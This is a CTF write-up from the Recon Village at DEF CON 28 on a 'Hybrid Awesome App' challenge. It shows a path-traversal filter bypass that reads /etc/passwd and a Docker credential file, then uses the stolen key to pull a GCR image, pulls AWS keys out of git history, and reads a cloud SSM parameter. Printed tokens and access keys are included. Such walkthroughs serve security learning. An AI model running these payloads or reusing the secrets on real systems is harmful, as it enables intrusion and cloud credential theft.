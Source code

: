 ```yaml
---
layout: post
title: 'Recon Village CTF @ DC28 - Hybrid Application Challenge'
date: '2020-08-10T00:00:00.000-00:00'
author: Keramas on behalf of all of Neutrino Cannon
tags: [ctf, defcon28, defconsafemode, reconvillage]
---
```


With so much content this year for Defcon 28, I placed all my focus on the Red Team Village CTF, but my teammate Altezza spent some time looking at the Recon Village CTF during some downtime on Friday and hit me up for some help with an interesting web/cloud challenge.

<img src = "/assets/images/reconvillagedc28/hybridawesomeapp.png">

The application is quite bare, and inputting anything into the box appears to do nothing, but we can see the following parameter which just smells like LFI.

```
http://159.65.106.65/index.php?file=test
```

Inspecting the source code reveals a couple of clues--namely that this application is based on a Docker image hosted on Gcloud.

```
    <center>
        <h1>Hybrid Awesome App</h1>
        <!-- Built with love using Docker -->
        <form action="/index.php" method="GET">
            <input type="text" name="file">
        </form>

            </center>
    </body>
</html>

[SNIP]
<!-- Golden docker image hosted in gcr.io/recon-285218/recon-code -->
```

After messing around with the file parameter, it was indeed susceptible to LFI through a simple WAF/validation bypass:

```
http://159.65.106.65/index.php?file=..././..././..././..././..././..././etc/passwd
```

<img src = "/assets/images/reconvillagedc28/lfi.png">

Based on the clues in the source code, since it is not possible to retrieve the golden Docker image without authentication, it is a good bet that the LFI is the way to get this data. 

A good clue is also present on the /info.php page:

<img src = "/assets/images/reconvillagedc28/rtfm.png">

This is definitely a hint to read about GCR Docker authentication, which points to the fact that the authentication key should be in .docker/config.json. Looking at the /etc/passwd entry, we have the Automator user which is used for Ansible, GCR, and other things, so their home directory is a good candidate. Using the LFI to test this out, it was possible to retrieve the auth file.

```
http://159.65.106.65/index.php?file=..././..././..././..././..././..././home/automator/.docker/config.json
```

<img src = "/assets/images/reconvillagedc28/gcloud.png">

Now that the config.json is in our possession, it is possible to authenticate to Gcloud:

```
# gcloud auth activate-service-account --key-file config.json
Activated service account credentials for: [recon-container@recon-285218.iam.gserviceaccount.com]
```

You can then print out the token, and pass it to Docker in order to login.

```
# gcloud auth print-access-token
ya29.c.KpYB1wcWhYrCYdx32EhocOMjGFl37QzHAwsaTblYBN6IKBuuD06g7uZMf2ZZKC4q1mFBaK5NZEUlNCa4hmN4znB4UD3nk2nJbcmQwMta7mtot_F26gH1h0OYr4Gp2_9tuO4FjsJzkHWVjmkB4hjcyKZ7PvXtH1SllKRCE43gQXofzGwVGnyI1FrmO3kVAntpndVgxODMk8mO
```

```
# docker login -u oauth2accesstoken -p "ya29.c.KpYB1wcWhYrCYdx32EhocOMjGFl37QzHAwsaTblYBN6IKBuuD06g7uZMf2ZZKC4q1mFBaK5NZEUlNCa4hmN4znB4UD3nk2nJbcmQwMta7mtot_F26gH1h0OYr4Gp2_9tuO4FjsJzkHWVjmkB4hjcyKZ7PvXtH1SllKRCE43gQXofzGwVGnyI1FrmO3kVAntpndVgxODMk8mO" https://gcr.io/recon-285218/recon-code
```

Now that we are authenticated, the Docker image can be pulled:

```
docker pull recon-285218/recon-code
```

While possible to explore from the outside with a tool like Dive, I hopped into it with `docker un -it <image> sh`, and within the image was an `app` folder containing a git repo.

Using `git log` we can see the change history which mentions env variables, which can contain keys for AWS or other key data.

```
commit 645228975ee876d1ca451e1876967648fffb5157 (HEAD -> master)
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:25:27 2020 +0200

    Final code release

commit d8d2254968636cc74bf6b0eb55c08db1d9586e1c
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:24:46 2020 +0200

    updated the codebase

commit 2db6437f13ad2a547fb4e25b4982b3e14ecc08a6
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:24:04 2020 +0200

    Added env variables

commit 0ebc9223e6d406d79870988fae77b2c7f0f5a856
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:23:08 2020 +0200

    Added docs

commit b2bfab33a39900021900b0c59e760918bc00ded2
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:23:00 2020 +0200

    Added the main code
```
Using `git diff` on the commit for the variables (2db6437f13ad2a547fb4e25b4982b3e14ecc08a6), we get a pair of AWS credentials.

```
diff --git a/.env b/.env
deleted file mode 100644
index f8b4175..0000000
--- a/.env
+++ /dev/null
@@ -1,3 +0,0 @@
-[default]
-aws_access_key_id = AKIAXMXLEAVVDDJAANDD
-aws_secret_access_key = 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
diff --git a/README.md b/README.md
index 3d7addf..0f47c02 100644
--- a/README.md
+++ b/README.md
@@ -1,3 +1,9 @@
 # Ubercool Service
 
 This is an ubercool service. Written in Golang!
```

Now taking these keys and using it with aws-cli tools, we can query AWS to determine what these credentials are for.

```
# aws sts get-caller-identity
{
    "UserId": "AIDAXMXLEAVVNPZ2QUKVR",
    "Account": "508372977002",
    "Arn": "arn:aws:iam::508372977002:user/read-param"
}
```

Looking at the "read-param" username, it's a good bet that this key pair had some kind of read privileges for parameters in AWS SSM. Taking a look at the parameters present reveals  "/prod/ctf/flag".

```
# aws ssm describe-parameters --region us-east-1
{
    "Parameters": [
        {
            "Name": "/prod/ctf/flag",
            "Type": "String",
            "LastModifiedDate": 1596816202.755,
            "LastModifiedUser": "arn:aws:iam::508372977002:user/madhuakula",
            "Version": 3,
            "Tier": "Standard",
            "Policies": [],
            "DataType": "text"
        }
    ]
}
```
A final query can then be made to read the parameter, which at long last gives the flag!

```
# aws ssm get-parameters --name /prod/ctf/flag --region us-east-1
{
    "Parameters": [
        {
            "Name": "/prod/ctf/flag",
            "Type": "String",
            "Value": "ZmxhZzp7ZGU1MzE1NmIyYWEwNzQwNmEwMjZkODQxNThlMzI2N2F9",
            "Version": 3,
            "LastModifiedDate": 1596816202.755,
            "ARN": "arn:aws:ssm:us-east-1:508372977002:parameter/prod/ctf/flag",
            "DataType": "text"
        }
    ],
    "InvalidParameters": []
}
```

```
echo ZmxhZzp7ZGU1MzE1NmIyYWEwNzQwNmEwMjZkODQxNThlMzI2N2F9 | base64 -d
flag:{de53156b2aa07406a026d84158e3267a}
```




